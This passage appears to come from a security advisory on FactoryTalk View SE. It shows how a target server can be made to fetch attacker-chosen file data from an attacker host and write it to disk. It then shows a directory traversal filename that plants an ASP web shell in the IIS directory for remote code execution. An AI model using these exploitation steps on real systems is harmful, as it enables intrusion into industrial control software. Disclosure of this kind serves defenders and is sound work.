 
`<RNA_ADDRESS>` is an internal address scheme used by FactoryTalk; it does not matter for exploitation purposes and can be safely ignored.

In fact, the request content can be completely ignored by `<LHOST>`, which only has to respond with:

```
HTTP/1.1 OK
(...)
<FILENAME>
```
> Snippet 3: *BackupHMI* response from `<LHOST>` to `<TARGET>`


After receiving this response, `<TARGET>` will send a HTTP GET request to the following URL in `<LHOST>`:

```
http://<LHOST>/rsviewse/_bak/<FILENAME>
```
> Snippet 4: *bak* request from `<TARGET>` to `<LHOST>`



To which `<LHOST>` should respond with whatever content it wants to be written to `<FILENAME>` on `<TARGET>`:

```
<FILE_DATA>
```
> Snippet 5: *bak* response from `<LHOST>` to `<TARGET>`



`<TARGET>` will then proceed to write `<FILE_DATA>` to `<FACTORYTALK_HOME>\_bak\<FILENAME>`, perform some actions on it (these actions were not determined since it did not matter for exploitation purposes), and finally delete `<FILENAME>`. All of these actions all occur in less than a second.

The default `<FACTORYTALK_HOME>` for FactoryTalk SE is *`C:\\Users\\Public\\Documents\\RSView Enterprise`*.




## Vulnerability #2: Directory Traversal

Once the first vulnerability was identified, the next objective was to obtain remote code execution. At this point, the data in the file and the filename were completely controllable, but this did not mean it was possible to execute arbitrary code.

The easiest way to achieve RCE is to write a file with ASP or ASPX code to the IIS directory.
This was easily achieved by abusing a directory travesal vulnerability in the `<FILENAME>` provided in **Snippet 3**. If `<LHOST>` responds as in *Snippet 3* with `<FILENAME>` set to:

```
../SE/HMI Projects/shell.asp
```
> Snippet 6: directory traversal response


